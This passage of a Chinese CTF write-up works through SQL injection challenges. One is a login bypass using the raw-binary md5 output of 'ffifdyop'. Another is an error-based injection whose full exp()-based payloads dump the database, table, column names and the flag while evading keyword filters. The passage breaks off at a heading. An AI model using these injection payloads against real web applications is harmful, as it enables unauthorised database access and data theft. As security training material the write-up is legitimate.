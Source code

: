 漏洞原因：  
aes-128-cbc加密存在CBC翻转攻击(不理解，暂时跳过)

### 0x02 后台登录  
#### 简单概括：
+ 考点：md5()函数16位二进制格式绕过，`md5("ffifdyop",True)`得到的加密字符串为`'or'6<crash>`(注：`or '数字+字母'` 等价于`or true`)  
+ 难度：易  
+ WP：https://blog.csdn.net/qq_36791003/article/details/81746730  

#### 解题过程：
打开网页，右键查看源代码发现源码：  
![](https://i.loli.net/2019/04/08/5cab35767dac4.png)  
```
<!-- $password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
    } -->
```
上网查了下，了解到md5($password,true)返回的是**原始 16 字符二进制格式**的密文,返回的内容可以存在单引号，故我们可以找个字符串，使其md5(str,true)加密过返回的字符串与原sql语句拼接造成SQL注入攻击。  
经过简单的Fuzz,我们知道：字符串`'or'6<乱码>"`，此时如果拼接到sql语句中，那么这条语句将会变成一条永真式，因此成功登录，获得flag。  
![](https://i.loli.net/2019/04/08/5cab35767372d.png)  
### 0x03 加了料的报错注入  
#### 简单概括：
+ + 考点：双参数注释绕过，`=`被过滤可用`regexp 'xxx'`和`in (0xaaaa)`代替
+ 难度： 中  
+ WP：https://www.jianshu.com/p/95f18a32ec7b  

#### 解题过程：
观察题目可知此题考的是报错注入，右键源代码得到提升：Post发送username&password。  
![](https://i.loli.net/2019/04/08/5cab35769ace0.png)  
sql语句如下：
```
$sql="select * from users where username='$username' and password='$password'";
```
注意：此处可控的参数有两个。  
简单手工测试，发现过滤了`#，and`等关键字，而且username处单独过滤了右括号，这意味着我们无法再username出使用函数，因而我们将目光转向password。  
![](https://i.loli.net/2019/04/08/5cab357692922.png)  
经过一番人工Fuzz，发现只有exp()函数没有被过滤，故我们构造语句：`exp(~(select * from(select user())a))`成功爆出用户名。
最终我们的payload如下：
```
username=a'/*&password=*/Or exp(~(select * from(select database())a))or'1 
//查询当前数据库
username=a'/*&password=*/Or exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema regexp 'error_based_hpf')a))or'1 
//查询表名，此处由于=被过滤，我们使用regexp来绕过
username=a'/*&password=*/Or exp(~(select * from(select group_concat(column_name) from information_schema.columns where table_name regexp 'ffll44jj')a))or'1
//查询列名，此处由于and被过滤，故而不加数据库名的验证，在实际渗透中最好还是尽量加上。
username=a'/*&password=*/Or exp(~(select * from(select group_concat(value) from ffll44jj)a))or'1
//获取flag
```
### 0x04 认真一点！  
#### 简单概括：
+ 考点：双层叠加绕过过滤，大小写绕过，from()for()代替偏移，布尔盲注  